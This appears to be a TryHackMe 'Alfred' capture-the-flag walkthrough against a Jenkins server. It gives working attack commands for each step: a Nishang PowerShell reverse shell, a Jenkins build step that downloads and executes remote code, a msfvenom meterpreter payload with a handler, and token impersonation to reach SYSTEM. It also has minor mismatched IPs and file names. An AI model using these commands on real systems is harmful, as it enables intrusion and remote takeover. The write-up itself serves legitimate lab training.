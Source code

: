 # Alfred

**Room Link:** [https://tryhackme.com/room/alfred](https://tryhackme.com/room/alfred)

### Initial Access

wget [https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1](https://raw.githubusercontent.com/samratashok/nishang/master/Shells/Invoke-PowerShellTcp.ps1)&#x20;

Edit the file and add the following to the end of the file. This is just to make it a bit easier when we use it later.

`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.135.134 -Port 4444`

**How many ports are open? (TCP only)**

nmap -A 10.10.98.134

**What is the username and password for the log in panel(in the format username:password)**

admin:admin



**Getting shell**

**Kali**

`rlwrap nc -lvnp 4444`

**Jenkins**

<figure><img src="../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

Under Build add a build step and select 'Execute Windows batch command' then  add the following in the command field

`powershell iex (New-Object Net.WebClient).DownloadString('http://10.10.135.134:81/Invoke-PowerShellTcp.ps1'); Invoke-PowerShellTcp`

<figure><img src="../../.gitbook/assets/image.png" alt=""><figcaption></figcaption></figure>

&#x20;

<figure><img src="../../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (13).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

### Switching Shells

**Kali**&#x20;

`msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.10.135.134 LPORT=1337 -f exe -o shell.exe`

`python2 -m SimpleHTTPServer 81`

**Kali**&#x20;

`msfconsole`

`use exploit/multi/handler`&#x20;

`set PAYLOAD windows/meterpreter/reverse_tcp`&#x20;

`set LHOST 10.10.135.134`&#x20;

`set LPORT 1337`&#x20;

`run`

Victim&#x20;

`powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.9.8.234:8000/shells.exe','shells.exe')"`

`Start-Process "shell.exe"`

<figure><img src="../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### **Privilege Escalation**

**Victim (Metasploit)**&#x20;

`load incognito`&#x20;

`list_tokens -g`

![](<../../.gitbook/assets/image (17).png>)

`impersonate_token "BUILTIN\Administrators"`&#x20;

`getuid`

We are now NT Authority&#x20;

<figure><img src="../../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Migrating processes to make sure we have correct permissions for the privileged user. The safest process to pick is the services.exe process

`ps`

`migrate 668`

<figure><img src="../../.gitbook/assets/image (2).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (6).png" alt=""><figcaption></figcaption></figure>
